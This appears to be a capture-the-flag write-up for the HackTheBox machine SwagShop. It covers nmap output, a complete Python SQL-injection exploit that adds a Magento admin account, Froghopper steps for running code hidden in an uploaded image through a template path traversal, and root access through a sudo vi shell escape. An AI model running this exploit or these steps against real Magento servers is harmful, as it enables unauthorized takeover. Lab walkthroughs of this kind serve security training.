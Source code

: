 ```yaml
---
title: HackTheBox - SwagShop
categories: htb Froghopper RCE SQLI
excerpt: | 
   Unicode is a easy difficulty Linux machine.

feature_text: |
  ## SwagShop - Easy 
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
```
      ___ ___                
    /| |/|\| |\          We are open!  (Almost)
     |   |.  |       Join the beta HTB Swag Store!
     |___|.__|       PS: Use rootflag as password! 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The machine begins with the enumeration of a webserver. It will redirect to swagshop.htb domain. Adding this to the /etc/hosts list, the main page will resolve good.

After look at the main page, an attacker would do a brute force enumeration of directories with `wfuzz`. This tool will report all combinations with successful status code. Examine all of them. There would be a possible risk in shell directory... Any ways, it seems impossible to penetrate, but look for vulnerabilities reported of Magento with `searchsploit` and there is an RCE. This one has some mistake so here you can see it edited:

``` python
import requests
import base64
import sys

target = "http://swagshop.htb/index.php/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""
query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query).encode('utf-8')

r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print ("WORKED")
    print ("Check {0}/admin with creds forme:forme".format(target))
else:
    print ("DID NOT WORK")

```
This script will create a new admin user with a SQLI.

### Exploit vulnerabilities
Once the attacker is inside the web as Administrator, he can exploit a *Froghopper* vulnerability. [This](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper) is a tutorial where you'll learn about it. 

The Froghopper attack methodology is available in some unpathed versions of Magento 1. 

Firstly, the attacker can upload a file to the system. There are some extensions that are allowed. JPG and PNG are avaible. 

However, the system will not examine the content of this file, and in a typical Magneto configuration, files are uploaded and stored in a publicly accessible directory `media/catalog/category`.
Only the attacker needs is to launch this malicius file. In Magento is possible to upload a new template and execute block of command if you are admin... So, that's all.

Step by step:
1. Create an image with some malicios code at ends.
2. Upload it to the new category page. (Catalog > Manage Categories)
3. Generate a new template (Newsletter > Newsletter Template), include the next block of template code between \{\{...\}\}:
`block type='core/template' template='../../../../../../media/catalog/category/malicius_image.jpg'`
4. Finally see the results with the `Preview Template` Button.


### Privilege Scalation
Look for privilege: sudo -l.
> (root) NOPASSWD: /usr/bin/vi /var/www/html/\*

www-data can execute vi command as root in `/var/www/html/`. 
1. `sudo vi /var/www/html/notfound`
2. :set shell=/bin/bash
3. :shell
You get it! 
